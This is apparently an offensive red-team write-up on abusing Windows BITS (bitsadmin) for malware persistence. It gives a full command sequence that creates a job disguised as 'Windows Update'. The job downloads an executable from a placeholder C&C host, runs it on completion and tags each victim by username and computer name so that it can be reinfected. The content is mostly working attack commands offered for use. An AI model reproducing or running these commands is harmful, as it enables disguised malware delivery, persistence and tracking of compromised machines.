

# Create new transfer job named "Windows Update"
bitsadmin /Create "Windows Update"
# Add a file to our job
bitsadmin /AddFile "Windows Update" http://<yourC&C>.com/kb%RANDOM%.exe %TEMP%\kb7468656d.exe
# Customize the notification event trigger
bitsadmin /SetNotifyFlags "Windows Update" 1
# Specify command to execute on notification event
bitsadmin.exe /SetNotifyCmdLine "Windows Update" "%COMSPEC%" "cmd.exe /c bitsadmin.exe /complete \"Windows Update\" && start /B %TEMP%\kb7468656d.exe"
# Set retry delay on transient error in seconds
bitsadmin /SetMinRetryDelay "Windows Update" 120
# Assign custom HTTP Request header
bitsadmin /SetCustomHeaders "Windows Update" "Caller:%USERNAME%@%COMPUTERNAME%"
# Activate job for transfer
bitsadmin /Resume "Windows Update"
Important Settings:
- Use of the /SetNotifyFlags 1 causes BITS to "Generate an event [ONLY] when all files in the job have been transferred."
- Leveraging /SetNotifyCmdLine we issue the /Complete command and subsequently execute our payload. Without use of /Complete BITS will leave our files in a tmp state and not move them to the correct directory within the file system. This usage of /SetNotifyCmdLine along with /Complete seem to be missing from most examples of using this tool.
- Utilizing the %RANDOM% variable in our /AddFile command, along with environment variables in our /SetCustomHeaders command, we create a host-specific HTTP request header and trigger file. We can now easily identify each machine and trigger their reinfection independently of one another.
Issuing the above commands results in the following request being sent to our C&C server:

Make sure you have a C&C infrastructure to handle BITS traffic